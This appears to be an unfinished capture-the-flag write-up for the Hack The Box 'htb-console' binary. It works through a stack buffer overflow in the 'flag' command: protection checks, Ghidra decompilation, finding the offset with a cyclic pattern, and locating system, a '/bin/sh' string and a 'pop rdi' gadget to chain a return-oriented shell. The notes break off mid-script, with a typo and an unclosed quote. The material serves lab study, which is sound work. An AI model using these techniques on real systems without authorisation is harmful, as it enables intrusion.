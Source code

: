 htb-console

NX is enabled
No obvious flag or win function
I think we'll need to do some ROP magic to get a shell

$ file htb-console           
htb-console: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=575e4055094a7f059c67032dd049e4fdbb171266, for GNU/Linux 3.2.0, stripped

$ checksec --file htb-console
[*] '/home/kali/CTF/HTB/HTB_Console/htb-console'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)


- Open in Ghidra
- stripped, so no function names
- also, there is an alert / alarm

void alarm(void)

{
  alarm(0x1e);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  return;
}

- alarm is set to 0x1e (30 seconds)
- lets open the exe in ghex and replace this with 0xff

ghex htb-console
find / replace bf 1e with bf ff
save as htb-console-patched


iVar1 = strcmp(param_1,"flag\n");
if (iVar1 == 0) {
printf("Enter flag: ");
fgets(local_18,0x30,stdin);
puts("Whoops, wrong flag!");
}

local_18 in this function is a buffer of size 16
but fgets here allows user to input 0x30 (48) bytes of info .. which will overflow the buffer

If we look further down:
          else {
            iVar1 = strcmp(param_1,"date\n");
            if (iVar1 == 0) {
              system("date");

Application calls 'system' which perhaps we can exploit to call a shell.

Remember that PIE is not enabled ... so we don't have to worry about the memory addresses
changing.

pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x0000000000401030  puts@plt
0x0000000000401040  system@plt

Could also use radare2 from within gdb-pwndbg:
pwndbg> r2
[0x004010b0]> aa
[x] Analyze all flags starting with sym. and entry0 (aa)
[0x004010b0]> afl
0x004010b0    1 47           entry0
0x00401030    1 6            sym.imp.puts
0x00401040    1 6            sym.imp.system
0x00401050    1 6            sym.imp.printf
0x00401060    1 6            sym.imp.memset
0x00401070    1 6            sym.imp.alarm
0x00401080    1 6            sym.imp.fgets
0x00401090    1 6            sym.imp.strcmp
0x004010a0    1 6            sym.imp.setvbuf
0x00401397    2 107          main
0x00401190    5 118  -> 57   entry.init0
0x00401160    3 33   -> 32   entry.fini0
0x004010f0    4 33           fcn.004010f0


Need offst to the instruction pointer so we can overwrite it with address of system and pass it our own string.

- open gdb-pwndbg.
- Generate cyclic pattern (cyclic 50)

Now we'll attempt to overflow the buffer in the 'flag' option:
>> flag
>> (enter the cyclic pattern)

Now look for the 8 bytes contained in RSP (which would normally be copied into the RIP):
search for them:
pwndbg> cyclic -l daaaaaaa
Finding cyclic pattern of 8 bytes: b'daaaaaaa' (hex: 0x6461616161616161)
Found at offset 24

Now to figure out how / where we'll write our string (/bin/sh) to be called by system
the hof function allows us to input a string which is stored in a DATA variable.
Lets figure out where this is stored:

in gdb-pwndbg, run the program, then call 'hof'
>> /bin/sh
now, ctrl-c to break out of execution.

in Ghidra, we see that user input is read into DAT_004040b0
If we look at this variable, we find it's address:

                             DAT_004040b0                                    XREF[1]:     console:004012f1(*)  
        004040b0 00              ??         00h


Back in gdb-pwndbg, lets have a look at whats in this variable / address:
x/8s 0x004040b0
0x4040b0:	"/bin/sh\n"
0x4040b9:	""
0x4040ba:	""
0x4040bb:	""
0x4040bc:	""
0x4040bd:	""
0x4040be:	""
0x4040bf:	""

Voila!  We see our string right there!

So we will need to find pop rdi in order to pop the bin/sh string before we call system
$ ropper --file htb-console --search "pop rdi"   
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: htb-console


Now we need to figure out how to write our '/bin/sh/'' string to the data variable 
io.sendlineafter('>> ', 'hof')
io.sendlineafter('Enter your name: ', '/bin/sh/)
